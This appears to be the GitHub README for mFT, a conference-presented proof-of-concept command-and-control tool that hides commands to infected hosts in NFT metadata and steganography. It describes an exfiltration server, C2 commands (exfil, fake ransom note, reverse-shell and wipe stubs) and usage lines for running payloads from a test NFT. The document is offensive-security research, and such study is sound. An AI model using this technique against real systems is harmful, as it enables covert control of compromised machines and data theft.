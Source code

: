 # mFT - Malicious Fungible Token

mFT is a Web3 based C2 PoC that leverages Non-Fungible Tokens (NFTs) as a mechanism for hosting and transmitting commands to compromised or infected hosts abusing common fields like "Description", Traits, EXIF metadata and steganographically hidden messages.

## Conferences

|#| Date | Conference | Video | Slides |
|---|---|---|---|---|
| 1 | 2024 | InsomniHack Switzerland | https://www.youtube.com/watch?v=8EAaFNiiV2c&list=PLcAhMYXnWf9twDPjT1G3vyIzHxoQ-X8XK&index=29 | https://download.scrt.ch/insomnihack/ins24-slides/Malicious%20Fungible%20Tokens%20-%20InsomniHack.pdf |


## A note about this PoC

This PoC does not conduct any malicious activity (options for wiping or encrypting drives are merely present to illustrate capabilities). 

I fully understand that OpenSea NFT's are *not stored on-chain* but rather *made resilient by using IPFS, FileCoin and other technologies*. 

This is just a PoC to see how far things could go on a *off-chain* NFT system. Otherwise, I would have jumped straight away into developing a fully *on-chain* PoC (which surely would have been easier and less painful).

- Steganographic messages were generated using https://stylesuxx.github.io/steganography/. 
- ROT-13 function originally written by zhisme.

## Requirements

Install dependencies:

```bash
#Gems. Note: Using thin 1.8.2 requires rack to be under v3.0.0, which conflicts with using the newer sinatra (4.0).
bundle install

#Exiftool
apt install exiftool

#Make sure both zsteg and exiftool binaries are referenced on your PATH
```

Configure your OpenSea API Key in the `config.rb` file:

```ruby
$sea_apikey = "YOUR_API_KEY_HERE"
```

## mFT Exfil Server (mFTExfil.rb)

The exfiltration tool will start a web server which will log any data exfiltrated by mFT clients.

Custom address and port can be configured in the `config.rb` file:

```ruby
#Exfil Server default IP
$ex_default_address = "0.0.0.0"

#Exfil Server default Port
$ex_default_port = 4444
```

## mFT (mFT.rb)

This tool has the capability to both read and execute a malicious payload contained within an NFT. 
It also offers the functionality to provide an execution plan and generate custom payloads for specific purposes. 
Furthermore, if required, the tool can list all NFTs associated with a given address and retrieve detailed information about each one individually.

```ruby
          _____ _____           _ _ _     _   ___    _____ _ _         _   
    _____|   __|_   _|   ___   | | | |___| |_|_  |  |     | |_|___ ___| |_ 
   |     |   __| | |    |___|  | | | | -_| . |_  |  |   --| | | -_|   |  _|
   |_|_|_|__|    |_|           |_____|___|___|___|  |_____|_|_|___|_|_|_|                                                                   
                                      mFT - Client v0.01 - Mauro Eldritch     

Usage: mFT [options]
    -g, --generate                              Generate a malicious payload
    -x ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --execute                               Execute a specific NFT's malicious payload
    -d ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --decode                                Decode a specific NFT's malicious payload
    -l, --list ACCOUNT,BLOCKCHAIN               List account NFTs
    -i ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --info                                  Get details for a specific NFT
```

### C2 Commands List

- `id`: Grabs hostname and IP address.
- `exfil`: Attempts to exfiltrate information via a POST request against the exfiltration server.
- `encrypt`: Dummy command which should encrypt the filesystem, but only creates a fake ransom note on the desktop.
- `shell`: Dummy command which should open a reverse shell **(not implemented)**.
- `wipe`: Dummy command which should wipe the filesystem **(not implemented)**.

### Test Contract & NFT

A test collection was published for users to run local tests. Use the NFT Address `0xd838b011c90643b6623393a94405a5e3c199b1fc` with ID `1` or `2` and `ethereum` blockchain on the examples below. The collection features my golden retriever and partner in crime Leopoldo, better known as "Golden Locker" or "*Treat* Actor" in the underground.

- NFTs: https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/1 & https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/2
- Holder (my test account): `0x942773F094f0C170AB8835e28f9B0b0b223e043A`
- Collection: https://opensea.io/collection/malicious-fungible-tokens 
- Contract: https://etherscan.io/token/0xd838b011c90643b6623393a94405a5e3c199b1fc 

### Examples:

```bash
#Note: Blockchain argument is optional for all cases. Default value: "ethereum".

#Run Exfiltration Server
ruby mFTExfil.rb

#Generate a payload interactively
ruby mFT.rb -g

#List all NFTs from a given address
ruby mFT.rb -l "0x942773F094f0C170AB8835e28f9B0b0b223e043A"

#Decode and explain a payload step by step ("2" can be used as the second parameter)
ruby mFT.rb --decode "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Execute a payload ("2" can be used as the second parameter)
ruby mFT.rb --execute "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Get information for a specific NFT ("2" can be used as the second parameter)
ruby mFT.rb --info "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"
```

## See also

- The Hacker News - EtherHiding: https://thehackernews.com/2023/10/binances-smart-chain-exploited-in-new.html
- Guardio Labs - EtherHiding: https://labs.guard.io/etherhiding-hiding-web2-malicious-code-in-web3-smart-contracts-65ea78efad16
